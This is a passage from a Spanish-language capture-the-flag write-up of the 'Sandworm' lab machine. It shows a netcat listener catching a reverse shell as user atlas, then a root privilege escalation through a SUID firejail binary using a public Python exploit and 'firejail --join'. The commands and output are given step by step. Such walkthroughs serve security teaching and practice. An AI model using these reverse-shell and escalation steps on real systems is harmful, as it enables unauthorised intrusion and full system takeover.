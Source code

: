 Debemos esperar a que se compile el binario `/opt/tipnet/target/debug/tipnet` para recibir la shell. Es posible que no funcione a la primera porque la máquina restaura los archivos.

```bash
$ nc -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.218.
Ncat: Connection from 10.10.11.218:45960.
bash: cannot set terminal process group (38829): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
atlas@sandworm:/opt/tipnet$ hostname -I
hostname -I
10.10.11.218
atlas@sandworm:/opt/tipnet$
```

### Obtener root
Estamos de nuevo como `atlas` pero fuera de firejail, estamos como miembro de un grupo raro llamado `jailer`, podemos buscar con `find` a que tenemos acceso.

```bash
atlas@sandworm:~$ find / -group jailer -ls 2>/dev/null
     1344   1740 -rwsr-x---   1 root     jailer    1777952 Nov 29  2022 /usr/local/bin/firejail
```

Vemos el binario `firejail` que es **SUID** y el propietario es `root`, si lo ejecutamos para ver la versión podemos indagar si existen vulneabilidades.

Luego de investigar podemos ver varios articulos relacionados a **Privilege Escalation**, en []() vemos un **exploit** en **C**, pero es mejor buscar algo en **Python** ya que la máquina lo tiene instalado. Tenemos este post de [exploit-notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/#firejail) donde se usa un script de **Python**.

Antes de ejecutarlo, necesitamos otra conexión como atlas, ya que el exploit debe ejecutarse y esperar a que se une a un PID de un servicio firejail ejecutandose, por lo que tener nuestra `id_rsa.pub` como `authorized_keys` en el directorio `.ssh` es lo mejor.

```bash
atlas@sandworm:/tmp/tmp.E649KRelDj$ python3 exploit.py
You can now run 'firejail --join=40143' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

En la otra conexión debemos ejecutar ese comando tal cual nos lo da y luego ejecutar `su -` para acceder como `root`.

```bash
atlas@sandworm:~$ firejail --join=40143
changing root to /proc/40143/root
Warning: cleaning all supplementary groups
Child process initialized in 6.76 ms
atlas@sandworm:~$ su -
root@sandworm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:~# cat root.txt
e48**************************655
```
